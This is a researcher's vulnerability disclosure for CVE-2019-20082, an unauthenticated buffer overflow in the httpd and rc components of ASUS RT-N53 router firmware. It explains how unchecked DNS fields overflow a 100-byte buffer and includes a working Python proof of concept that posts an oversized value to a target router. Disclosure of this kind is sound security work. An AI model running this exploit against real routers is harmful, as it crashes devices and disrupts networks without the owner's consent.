





# ASUS Unauth buffer overflow vulnerability

**Exploit Author**: pr0v3rbs@kaist.ac.kr

**Vender**: ASUS

## CVE-2019-20082

**Firmware version**: RT-N53 (Version 3.0.0.4.376.3754)

### The detail of vulnerability ###

There are hidden `lan_dns1_x`, `lan_dns2_x` input controls in the `Advanced_LAN_Content.asp` page.



Before input the text, the `maxlength` and `onkeypress` need to be removed from the page, and then fill the value with a buffer which overcomes 126 sizes.



In the `httpd` daemon, without any length or validation check, the transferred `lan_dns1_x`, `lan_dns2_x` parameters are saved in the NVRAM through the `sub_41ee90` and `sub_41e69c` (apply_new) function.





After the elements were saved in the NVRAM, the `init`(symbolic linked from the rc) process try to reload the system. However, in the `update_lan_state` function, the saved `lan_dns1_x`, `lan_dns2_x` elements are copied to the local buffer which has 100 sizes without any length check. At this point, when returning from the function, the buffer overflow occurred.



### PoC

```python
#!/usr/bin/env python3

import requests

IP = input('Target IP:').strip()

req = requests

headers = requests.utils.default_headers()
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; Touch; rv:11.0) like Gecko"
headers["Referer"] = "http://" + IP + "/"

buf = 'a'*128
payload = {'productid': 'RT-N53', 'current_page': 'Advanced_LAN_Content.asp', 'next_page': '', 'group_id': '', 'modified': '0', 'action_mode': 'apply_new', 'action_script': 'restart_net_and_phy', 'action_wait': '35', 'preferred_lang': 'EN', 'firmver': '3.0.0.4', 'wan_ipaddr_x': '', 'wan_netmask_x': '', 'wan_proto': 'dhcp', 'lan_proto': 'static', 'lan_dnsenable_x': '0', 'lan_ipaddr_rt': '192.168.1.1', 'lan_netmask_rt': '255.255.255.0', 'lan_proto_radio': 'static', 'lan_ipaddr': '192.168.1.1', 'lan_netmask': '255.255.255.0', 'dhcp_start': '192.168.1.2', 'dhcp_end': '192.168.1.254', 'lan_gateway': '0.0.0.0', 'lan_dnsenable_x_radio': '0', 'lan_dns1_x': buf, 'lan_dns2_x':''}

req.post('http://{}/start_apply.htm'.format(IP), headers=headers, data=payload, timeout=10)
print('sent buffer overflow packet')
```

### ASUS Hall of Fame
